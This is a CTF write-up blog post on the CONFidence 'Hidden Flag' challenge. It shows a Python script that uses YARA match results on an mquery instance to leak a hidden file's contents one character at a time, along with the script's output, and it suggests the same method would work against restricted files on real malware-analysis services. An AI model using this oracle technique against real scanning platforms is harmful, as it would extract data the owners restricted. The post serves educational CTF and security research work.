 ```yaml
---
title: CONFidence Teaser CTF – Hidden Flag
author: Megabeets
type: 
date: 2020-03-15T10:57:56+00:00
url: /confidence-teaser-ctf-hidden-flag/
categories:
  - Writeups
tags:
  - CONFidence
  - CTF

---
```

During CONFidence Teaser CTF, one specific task caught my interest. Not because it was hard or complicated &#8211; it wasn&#8217;t, but because the concept behind it was interesting and relevant to my day-to-day work as a malware researcher. 

In this short article, I will show a **highly esoteric**, not to say **trivial**, concept in which you can leak the content of &#8220;sensitive&#8221; files on systems where scanning the files with Yara is allowed, but downloading the files is not possible. Not only that I&#8217;ll show how it was used, as an **intended solution**, to solve the &#8220;Hidden Flag&#8221; challenge on the CTF, but will also demonstrate how it can be used to retrieve the data of TLP;RED, or un-downloadable files on premium services such as Hybrid-Analysis, where the major limitation is the bandwidth.

Let&#8217;s not move too fast and start from the beginning, the CTF challenge. On &#8220;Hidden-Flag&#8221;, the most solved challenge in this CTF, we are given an online instance of [mquery][1], a &#8220;YARA malware query accelerator&#8221;. In other words, the system lets you run your Yara rules on a repository of files, very fast. The flag, as it seems, exists in the content of a file found the corpus of files that are indexed and scanned by _mquery_. As a malware researcher, and as a [cert.pl][2] old fanboy, I was already familiar with _mquery_ and experienced with using it. 

The initial idea was to extract the flag using boolean queries of Yara rules. To prove that this concept really works, I started from this sample rule:

```
rule test {
  strings:
    $flag = "p4{"
  condition:
    $flag
}
```


And indeed, this simple rule showed that the concept is potentially possible and we can start slowly retrieving the flag. 

</p> <figure class="wp-block-image size-large">

<img src="../uploads/mquery-screenshot.png" /> </figure> 

In order to retrieve the rest of the flag, we can start to slowly &#8220;brute force&#8221; it character by character, hoping there will not be any &#8220;brute force&#8221; mitigation or similar limitation. Since I am familiar with the project, I know it has a REST API we can use for our help. For those of you who aren&#8217;t familiar, can figure this out from the [tests][3].

And indeed, we can quickly write a script to brute force the flag character by character.

```
import string
import requests

QUERY_URL = "http://hidden.zajebistyc.tf/api/query/high"
MATCHES_URL = "http://hidden.zajebistyc.tf/api/matches/{}?offset=0&limit=50"

def request_query (query):
    res = requests.post(QUERY_URL, json={"method": "query", "raw_yara": query})
    res.raise_for_status()
    query_hash = res.json()["query_hash"]
    res = requests.get(MATCHES_URL.format(query_hash))
    if res.json()["job"]["status"] == "done":
        return res


# Define a rule tempplate

test_yara = """
rule find_flag {{
    strings:
        $flag = "{0}"
    condition:
        $flag
}}
"""

# Generate a list of potential characters
potential_chars = "-_}"+string.ascii_lowercase+string.digits+string.ascii_uppercase+"@!"  

# Start from the known prefix of the flag

flag = "p4{"

while True:
    print("[+] Found:",flag)
    for c in potential_chars:
        res = request_query(test_yara.format(flag + c))
        if len(res.json()["matches"]) > 0:
            flag += c
            break
    if c == "}":
        break

print("[+] Flag:", flag)

# flag is "p4{ind3x1ng-l3ak5}"
```


Let&#8217;s run the script and see the results come quickly:

```
$ python3 solution.py

[+] Found: p4{
[+] Found: p4{i
[+] Found: p4{in
[+] Found: p4{ind
[+] Found: p4{ind3
[+] Found: p4{ind3x
[+] Found: p4{ind3x1
[+] Found: p4{ind3x1n
[+] Found: p4{ind3x1ng
[+] Found: p4{ind3x1ng-
[+] Found: p4{ind3x1ng-l
[+] Found: p4{ind3x1ng-l3
[+] Found: p4{ind3x1ng-l3a
[+] Found: p4{ind3x1ng-l3ak
[+] Found: p4{ind3x1ng-l3ak5
[+] Flag: p4{ind3x1ng-l3ak5}
```


<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://github.com/CERT-Polska/mquery
 [2]: https://www.cert.pl/en/
 [3]: https://github.com/CERT-Polska/mquery/blob/master/src/tests/test_api.py